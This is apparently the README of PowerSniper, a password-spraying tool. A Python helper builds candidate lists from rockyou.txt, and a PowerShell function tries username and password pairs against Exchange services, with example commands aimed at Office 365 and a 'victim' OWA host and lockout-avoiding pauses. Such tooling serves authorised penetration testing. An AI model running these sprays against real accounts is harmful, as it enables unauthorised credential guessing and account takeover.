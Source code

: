 # PowerSniper
Password spraying script and helper for creating password lists.

The Python script uses configurable parameters to extract complex passwords from a password list such as rockyou.txt.  It then analyzes the Damerau-Levenshtein distance between that password and a list of common passwords (the text file in this repository is the top 20 most common rockyou passwords that could be easily modified to be a complex password, i.e. not the one's that are all digits).  The script is configurable for the maximum distance to keep a password, with a default of 4, and will output results to a CSV file.

The PowerShell script loops through usernames and passwords and attempts to authenticate with them against various Microsoft Exchange web-based services.  The script supports pausing after a specified lockout count for a specified period of time to prevent account lockouts.

Requirements
============
passdist.py requires jellyfish

Usage
=====
<pre>
usage: rockdist.py [-h] --wordlist WORDLIST --toplist TOPLIST [--output OUTPUT] [--passmin PASSMIN] 
                        [--passmax PASSMAX] [--complex] [--passdist PASSDIST]
                        
  Get the distances between complex passwords and top passwords used

  optional arguments:  
    -h, --help           show this help message and exit  
    --wordlist WORDLIST  the file with the complex rockyou passwords (default: None)  
    --toplist TOPLIST    the file with the top rockyou passwords (default: None)  
    --output OUTPUT      the CSV output of the analysis (default: analysis.csv)  
    --passmin PASSMIN    the minimum size password to choose from (default: 7)  
    --passmax PASSMAX    the maximum size password to choose from (default: 12)  
    --complex            require complex passwords (default: 0)  
    --passdist PASSDIST  the maximum distance between passwords to keep (default: 4)
</pre>

Example passdist.py command:
<pre>
    python passdist.py --wordlist rockyou.txt --toplist toplist_rockyou.txt --output lowdist.csv --passmin 7 --passmax 12 --complex --passdist 4
</pre>

<pre>
NAME    
  Invoke-PowerSniper
  
SYNOPSIS    
  This module loops through usernames and passwords and attempts to authenticate with them against various Microsoft Exchange web-based services.
  
    PowerSniper Function: Invoke-PowerSniper    
    Author: Josh Berry (@codewatchorg)    
    License: BSD 3-Clause    
    Required Dependencies: None    
    Optional Dependencies: None

SYNTAX    
  Invoke-PowerSniper [[-uri] &lt;Object&gt;] [[-svc] &lt;Object&gt;] [[-userlist] &lt;Object&gt;] [[-passlist] &lt;Object&gt;] [[-sos] &lt;Object&gt;] [[-lockout] &lt;Object&gt;] [[-locktime] &lt;Object&gt;] [&lt;CommonParameters&gt;]

DESCRIPTION    
  This module loops through usernames and passwords and attempts to authenticate with them against various Microsoft Exchange web-based services.  The script supports pausing after a specified lockout count for a specified period of time to prevent account lockouts.

RELATED LINKS    
  https://blogs.technet.microsoft.com/meamcs/2015/03/06/powershell-script-to-simulate-outlook-web-access-url-user-logon/
  http://mobilitydojo.net/2010/03/30/rolling-your-own-exchange-activesync-client/
  http://mobilitydojo.net/2011/08/24/exchange-activesync-building-blocks-first-sync/
  http://mobilitydojo.net/files/EAS_BB/Part_02/HTTP_GET.cs
  https://blogs.technet.microsoft.com/heyscriptingguy/2011/12/02/learn-to-use-the-exchange-web-services-with-powershell/
  http://stackoverflow.com/questions/1582285/how-to-remove-elements-from-a-generic-list-while-iterating-over-it
  https://github.com/dafthack/MailSniper
</pre>

Example PowerSniper.ps1 usage:
<pre>
    # Outlook Anywhere Test
    Invoke-PowerSniper -uri https://outlook.office365.com -svc oa -userlist users.txt -passlist passwords.txt -sos false -lockout 6 -locktime 30
    
    # ActiveSync Test
    Invoke-PowerSniper -uri https://outlook.office365.com -svc as -userlist users.txt -passlist passwords.txt -sos false -lockout 6 -locktime 30
    
    # Outlook Web Access Test
    Invoke-PowerSniper -uri https://mail.victim.com/owa/auth.owa -svc owa -userlist users.txt -passlist passwords.txt -sos false -lockout 6 -locktime 30
</pre>
